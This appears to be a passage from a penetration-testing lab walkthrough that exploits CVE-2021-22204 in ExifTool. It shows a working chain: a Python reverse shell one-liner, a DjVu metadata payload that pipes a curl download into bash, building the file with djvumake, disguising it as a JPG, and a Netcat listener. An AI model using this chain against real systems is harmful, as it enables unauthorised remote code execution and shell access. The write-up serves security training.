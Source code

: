 ### ExifTool Arbitrary Code Execution

Public search reveals the following [exploit-db](https://www.exploit-db.com/docs/49881) document on CVE-2021-22204. The document details an arbitrary code execution vulnerability in the _DjVu_ file format in _ExifTool_ versions 7.44 and up. Although we cannot easily determine the version of the tool running on this target, we'll give this exploit a try.

This exploit uses **djvumake**, which we can install with the `djvulibre-bin` package.

```
┌──(kali㉿kali)-[~]
└─$ sudo apt-get update && sudo apt-get install -y djvulibre-bin
...

┌──(kali㉿kali)-[~]
└─$ which djvumake
/usr/bin/djvumake
```

We'll create a couple of files for this exploit: **shell.sh** with a python reverse shell one-liner and **exploit** with a `curl` call to our payload piped directly into `bash` for execution.

```
┌──(kali㉿kali)-[~]
└─$ cat shell.sh 
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

┌──(kali㉿kali)-[~]
└─$ cat exploit 
(metadata "\c${system ('curl http://192.168.118.11/shell.sh | bash')};")
```

Next, we'll run **djvumake** and then rename the resulting file as JPG.

```
┌──(kali㉿kali)-[~]
└─$ djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit

┌──(kali㉿kali)-[~]
└─$ mv exploit.djvu exploit.jpg

┌──(kali㉿kali)-[~]
└─$ file exploit.jpg
exploit.jpg: DjVu image or single page document

┌──(kali㉿kali)-[~]
└─$ 
```

We'll restart a Netcat listener.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
...
```
